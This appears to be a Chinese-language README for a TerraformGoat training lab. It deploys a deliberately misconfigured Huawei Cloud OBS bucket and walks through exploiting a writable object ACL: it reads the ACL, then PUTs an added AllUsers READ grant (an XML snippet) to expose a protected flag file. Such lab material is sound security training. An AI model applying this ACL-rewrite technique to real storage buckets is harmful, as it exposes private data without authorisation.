





# 华为云 OBS Object ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云对象存储 Object ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Object 的 ACL 策略读取到原本不能读取的数据。

## 环境搭建

在容器中运行

```shell
cd /TerraformGoat/huaweicloud/obs/object_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可



当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Object ACL 读取和写入权限，Object Key 为 flag

## 漏洞利用

尝试读取 flag 文件，发现提示访问拒绝

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```



尝试读取 flag 文件的 ACL 策略，发现可以读取

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```



尝试使用 PUT 方法上传 flag 文件的 Object ACL 策略，在原有策略的基础上增加以下策略，发现可以上传

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```



再次尝试读取 flag 文件，可以看到成功读取到 flag 文件

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```



## 销毁环境

```shell
terraform destroy
```
